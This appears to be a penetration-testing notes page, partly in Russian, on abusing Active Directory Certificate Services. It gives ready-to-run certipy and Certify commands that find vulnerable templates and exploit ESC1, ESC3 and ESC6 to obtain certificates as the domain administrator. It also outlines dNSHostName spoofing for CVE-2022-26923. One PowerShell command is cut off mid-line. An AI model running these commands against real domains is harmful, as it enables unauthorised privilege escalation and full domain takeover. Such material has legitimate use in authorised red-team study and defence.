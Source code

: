 # AD CS

{% embed url="https://xakep.ru/2022/10/14/active-directory-privesc/" %}

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

To **find vulnerable certificate templates** you can run:

```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128
```

### IF SSL ERROR

`-scheme ldap`



Шаб­лоны сер­тифика­тов хра­нят­ся в сле­дующем кон­тей­нере:

`CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=com`

Со­ответс­твен­но, получить шаб­лоны мож­но при помощи сле­дующей коман­ды PowerShell, исполь­зуя модуль AD:

`PS > Get-ADObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=`



### Certipy + BH

```bash
wget -O ~/.config/bloodhound/customqueries.json https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json
```

```bash
$ certipy find 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com
```



### Modifiable SAN. ESC1

Это ата­ка осно­выва­ется на изме­нении парамет­ра SAN, который поз­воля­ет ука­зать аль­тер­натив­ное имя поль­зовате­ля. Это поз­волит нам выпус­тить сер­тификат на дру­гого поль­зовате­ля, даже адми­нис­тра­тора домена. Что­бы ата­ка прош­ла успешно, шаб­лон сер­тифика­та дол­жен иметь уста­нов­ленный флаг `ENROLLEE_SUPPLIES_SUBJECT`.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -dc-ip 10.11.1.184 -ca CA-contoso -template "1" -alt "administrator@contoso.com"
```



### Any or None Purpose Attack. ESC2

Ес­ли в шаб­лоне сер­тифика­та ука­зан EKU любого наз­начения или вооб­ще отсутс­тву­ет EKU, сер­тификат мож­но исполь­зовать для чего угод­но. Им мож­но зло­упот­реблять, как ESC3, нап­ример исполь­зовать сер­тификат в качес­тве тре­бова­ния для зап­роса дру­гого сер­тифика­та от име­ни любого поль­зовате­ля.



### Enrollment Agent. ESC3

В [до­кумен­тации Microsoft](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cersod/97f47d4c-2901-41fa-9616-96b94e1b5435) ука­зано, что EKU Certificate Request Agent может исполь­зовать­ся, что­бы выдать себя за дру­гого поль­зовате­ля, и поз­воля­ет выпус­тить сер­тификат, который может быть исполь­зован для сов­мес­тной под­писи зап­росов от име­ни любого поль­зовате­ля для любого шаб­лона.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template Agent
```

Пос­ле того как мы получи­ли обыч­ного поль­зовате­ля, зап­росим сер­тификат, пред­ста­вив­шись дру­гим поль­зовате­лем.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template User -on-behalf-of 'contoso\Administrator' -pfx kent.jill.pfx
```



### **(EDITF\_ATTRIBUTESUBJECTALTNAME2). ESC6**

`EDITF_ATTRIBUTESUBJECTALTNAME2` Этот флаг поз­воля­ет ука­зать про­изволь­ный SAN (Subject Alternative Name) для всех сер­тифика­тов, нес­мотря на кон­фигура­цию шаб­лона сер­тифика­та.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -template <Любой шаблон> -ca CA-contoso -alt administrator@contoso.com
```



### dNSHostName Spoofing

Пол­ный флоу ата­ки выг­лядит сле­дующим обра­зом:

1. Соз­дание компь­юте­ра в домене с `dNSHostName`, соот­ветс­тву­ющим DNS-име­ни кон­трол­лера домена.
2. За­мена SPN.
3. Зап­рос сер­тифика­та для компь­юте­ра.

**как про­верить, уяз­вим ли кон­трол­лер домена к CVE-2022-26923? Глав­ным приз­наком уяз­вимос­ти слу­жит наличие SID в отве­те на зап­рос сер­тифика­та. Если он есть — патч в сис­теме при­сутс­тву­ет, если нет, то пат­ча тоже нет.**
